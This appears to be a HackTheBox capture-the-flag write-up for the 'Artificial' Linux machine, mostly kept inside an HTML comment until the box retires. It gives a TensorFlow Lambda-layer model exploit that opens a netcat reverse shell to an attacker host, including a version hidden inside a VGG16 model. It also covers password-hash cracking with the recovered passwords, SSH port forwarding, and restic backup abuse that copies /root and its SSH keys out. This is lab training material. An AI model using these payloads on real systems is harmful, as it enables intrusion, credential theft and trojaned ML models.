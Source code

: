 # Artificial
```
Difficulty: Easy
Operating System: Linux  
Hints: TensorFlow RCE, Docker misuse, SQLite DB leak, local-only service  
```

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--


#### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | (Local) | Nmap Scan, Website Enumeration | Identified open ports 22 (SSH) and 80 (HTTP), with a web service for AI solutions on port 80. |
| 2 | (Web) | TensorFlow RCE (CVE-N/A) | Crafted a malicious `.h5` model with a `tf.keras.layers.Lambda` layer to execute a reverse shell. |
| 3 | app | Reverse Shell Execution | Uploaded the malicious model and triggered the exploit, gaining a shell as the `app` user. |
| 4 | app | Local File Enumeration | Found a SQLite database (`users.db`) containing a list of users and hashed passwords. |
| 5 | gael | Hash Cracking (MD5) | Extracted `gael`'s MD5 hash (`c99...f8`) and cracked it to reveal the password. |
| 6 | gael | SSH Login | Used the cracked password to log in via SSH as the `gael` user and retrieve `user.txt`. |
| 7 | gael | LinPEAS & File Enumeration | Ran `linPEAS` and discovered `gael` was in the `sysadm` group with read access to a large backup file (`backrest_backup.tar.gz`). |
| 8 | gael | Backup File Analysis & Bcrypt Cracking | Exfiltrated and extracted the backup, finding a Bcrypt hash in a config file which was then cracked to reveal a password. |
| 9 | gael | Local Port Forwarding & Service Abuse | Used SSH local port forwarding to access a local-only service on port `9898`, which was running a `rest-server` for backups. |
| 10 | root | Restic Abuse | Used `restic` to initialize a repository on our local machine, backed up the entire `/root` directory from the target, and restored it locally to access `root.txt` and SSH keys. |
| 11 | root | SSH Login (Keys) | Used the recovered SSH private key to log in as `root`, completing the attack chain. |



## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    nginx 1.18.0 (Ubuntu)  
|_http-title: Artificial - AI Solutions  
|_http-server-header: nginx/1.18.0 (Ubuntu)
```


## Foothold

The website hosted on port 80 allows user registration and provides a feature to upload `requirements.txt`, suggesting potential dependency injection.

We discovered the use of TensorFlow for model uploads. Using an RCE payload in the `.h5` model, we achieved a reverse shell.

Exploit script:
```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 6666 > /tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```


#### TensorFlow Models Are Programs
TensorFlow models should be treated as code. The official [TensorFlow Security Guidelines](https://www.tensorflow.org/security) warn not to load untrusted models as models can contain executable logic, especially through features like Lambda layers.

#### The Lambda Layer
The `tf.keras.layers.Lambda` layer allows wrapping arbitrary Python expressions, which introduces the ability to run commands during model loading or inference.

#### RCE Example with Lambda
```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("touch /tmp/pwned")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

This code creates a `.h5` model file that executes `touch /tmp/pwned` when loaded. A reverse shell can be triggered the same way:

```python
def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 6666 > /tmp/f")
    return x
```

#### Hiding the Malicious Layer
You can embed the Lambda layer inside a legitimate model like VGG16:

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6666 >/tmp/f")
    return x

lambdaLayer = tf.keras.layers.Lambda(exploit, name="output")
original = tf.keras.applications.vgg16.VGG16()
inp = original.input
original.layers.pop()
infected = tf.keras.models.Model(inp, lambdaLayer(original.layers[-1].output))

for layer in infected.layers:
    layer.trainable = False

infected.save("infected.h5")
```

This technique can stealthily deliver payloads through seemingly benign ML models. The risk is real—always sanitize and verify what you're loading.



Upload the model, click **View Predictions**, and receive a shell.

## User

After initial access as `app`, we found a SQLite database containing hashed user credentials:
```sql
sqlite3 users.db
sqlite> select * from user;
...
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
...
```

### Method 1 - Hash Cracking (MD5)
Extracted hash:
```
c99175974b6e192936d97224638a34f8
```

Using John:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```
Password cracked: `mattp005numbertwo`

Tried SSH login with user `gael` and the cracked password — success.

## Root

Once we logged in as `gael`, we began privilege escalation enumeration using `linPEAS`.

We noticed that `gael` is part of the `sysadm` group and has read access to a large backup file:

```bash
ls -l /var/backups
-rw-r-----  1 root sysadm 52357120 backrest_backup.tar.gz
```

We copied the file locally for analysis. After extracting, we discovered the following in a config file:

```json
{
  "name": "backrest_root",
  "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
}
```

### Method 1 - Bcrypt Cracking
First, decode from base64:
```bash
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d
```

Result:
```
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

Use John to crack:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```
Password cracked: `!@#$%^`

### Port Forwarding
We noticed a local service running on port `9898`:
```bash
ss -tuln | grep LISTEN
tcp   LISTEN 0      4096    127.0.0.1:9898   0.0.0.0:*
```

Forwarded the port:
```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

Accessed the service via browser at `http://localhost:9898`, logged in using the cracked credentials.

We gained access to a restricted interface allowing command execution, leading to full root shell.

---

## Restic Backup Abuse via rest-server

After gaining access to a user in the `sysadm` group, we found a usable binary: **restic**. This can be abused to perform backups of sensitive directories if we have access to rest-server.

### 📦 Step 1: Start a `rest-server` on your attacker machine (Kali)

```bash
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```

```
Data directory: /tmp/restic-data
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:12345
```

---

### 🛠 Step 2: On the target, initialize a new repo and back up `/root`

```bash
restic -r rest:http://tun0:12345/myrepo init
restic -r rest:http://tun0:12345/myrepo backup /root
```

---

### 📁 Step 3: Back on Kali, view snapshots

```bash
restic -r /tmp/restic-data/myrepo snapshots
```

```
ID        Time                 Host        Tags        Paths  Size
-----------------------------------------------------------------------
905855e5  2025-06-23 05:17:15  artificial              /root  4.299 MiB
-----------------------------------------------------------------------
1 snapshots
```

---

### 🔁 Step 4: Restore the snapshot

```bash
restic -r /tmp/restic-data/myrepo restore b3112b8a --target ./restore
```

Now, the entire `/root` directory is recovered under `./restore/root`.

---

### 🪪 Step 5: Access the root flag

```bash
ls -al restore/root/
cat restore/root/root.txt
```

You’ll also find `.ssh` keys:

```bash
ssh -i ./restore/root/.ssh/id_rsa root@artificial.htb
```

---

## ✅ Summary

**User:** Exploited TensorFlow model deserialization to get RCE and crack SQLite DB password.  
**Root:** Used Restic backup capability with exposed `rest-server` to exfiltrate and restore `/root`, then extracted SSH key and accessed root.

---

**Pwned Artificial!!**

![**Pwned Artificial!!**](Pictures/Arificial.png)





-->